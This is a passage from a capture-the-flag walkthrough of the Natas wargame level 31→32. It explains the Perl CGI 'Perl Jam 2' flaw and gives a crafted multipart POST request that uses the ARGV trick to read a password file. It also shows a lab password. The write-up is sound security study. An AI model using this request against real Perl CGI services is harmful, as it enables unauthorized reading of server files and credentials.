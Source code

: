 Password: `m7bfjAHpJmSYgQWWeqRE2qVBuMiRNq0y`

## Level 31 → 32
Once we log in, we have the source code and an option to upload a file. It's supposed to be a `CSV` file, but any file will work, and once uploaded, it is being printed nicely on the screen. I thought there's an easy vulnerability right here, but I tried uploading many files with different types and tricks but nothing worked. 

As seen in [this video](https://www.youtube.com/watch?v=RPvORV2Amic) ([PDF](https://www.blackhat.com/docs/asia-16/materials/asia-16-Rubin-The-Perl-Jam-2-The-Camel-Strikes-Back.pdf)) about a known exploitation in Perl, `The Perl Jam 2`, the key in this level is the `Perl` language itself, not how it has been used. Starting at about 13:45 minutes, Netanel explains how different modules handle input data, in our case the used module is `CGI`, as we can see in the source code. Then, at about 18:35 minutes, we can see an "extreme example", which is very familiar to the code in this level. In fact, it is the same up until the `while` loop.

```
my $cgi = CGI->new;
if ($cgi->upload('file')) {
    my $file = $cgi->param('file');
    print '<table class="sortable table table-hover table-striped">';
    $i=0;
    while (<$file>) {
...
```
Let's explain step by step. The first row creates a new `CGI` instance, which is a protocol that lets us execute perl commands from web requests.
```
if ($cgi->upload('file')) {
```
`upload()` is supposed to check if the `file` parameter is an uploaded file. In reality, `upload()` checks if ONE of `file` values is an uploaded file. Therefore, uploading a file AND assigning a scalar to the same parameter will work.
```
my $file = $cgi->param('file');
```
`param()` returns a list of all the parameter values, but only the first value is inserted into `$file`. If the scalar value was assigned first, `$file` will be assigned the scalar value instead of the uploaded `file descriptor`, which means `$file` is now a regular string.
```
while (<$file>) {
```
`<>` doesn’t work with strings, unless the string is `"ARGV"`. In that case, `<>` loops through the ARG values, inserting each one to an `open()` call. Instead of displaying our uploaded file content, `<>` will now display the content of ANY file we’d like, and that file is the password file.

So, using `Burp` we capture the `POST` request of submitting a random `CSV` file. Then, by using what we learned from the source above, we craft this request:
```
POST /index.pl?%2fetc%2fnatas_webpass%2fnatas32 HTTP/1.1
...

------geckoformboundary1a049a7a33f067ae1047023a86016037
Content-Disposition: form-data; name="file"

ARGV
------geckoformboundary1a049a7a33f067ae1047023a86016037
Content-Disposition: form-data; name="file"; filename="username.csv"
Content-Type: text/csv

Username; Identifier;First name;Last name
booker12;9012;Rachel;Jones;</script>

------geckoformboundary1a049a7a33f067ae1047023a86016037
Content-Disposition: form-data; name="submit"

```